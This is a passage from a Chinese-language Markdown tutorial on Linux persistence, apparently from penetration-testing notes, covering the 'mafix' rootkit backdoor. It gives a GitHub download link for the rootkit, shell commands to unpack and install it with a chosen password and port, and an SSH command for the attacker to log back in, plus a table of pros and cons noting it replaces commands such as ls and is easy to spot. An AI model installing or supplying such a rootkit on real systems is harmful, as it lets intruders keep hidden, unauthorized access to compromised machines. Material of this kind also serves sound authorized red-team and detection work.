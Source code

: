 ![image.png](./Linux 权限维持.assets/2023_05_19_10_24_05_ixcnQ3fB.png)



| 优点 | 缺点 |
| :-: | :-: |
| 利用简单 | 有反连shell告警 |

## mafix 后门
下载地址：[https://github.com/yzimhao/godpock/tree/master/Rootkit](https://github.com/yzimhao/godpock/tree/master/Rootkit)
```shell
tar zxvf mafix.tar.gz
cd mafix.tar.gz
./root 密码 端口
# 攻击机 使用如下命令

# centos 7 还支持ssh1，windows，Debian、Ubuntu ssh客户端不支持ssh1
ssh -1 root@xxx.xxx.xxx.xxx -p port
```
![image.png](./Linux 权限维持.assets/2023_05_19_10_24_06_pXG2dbh5.png)

![image.png](./Linux 权限维持.assets/2023_05_19_10_24_07_n2DvIlpo.png)



| **优点** | **缺点** |
| :-: | :-: |
| 无需编译，配置简单 | 会替换ls等命令，容易被识破|
|环境依赖较高，在Ubuntu，centos上测试不通过，Ubuntu缺少依赖，centos会死机，在Debian上顺利通过 ||

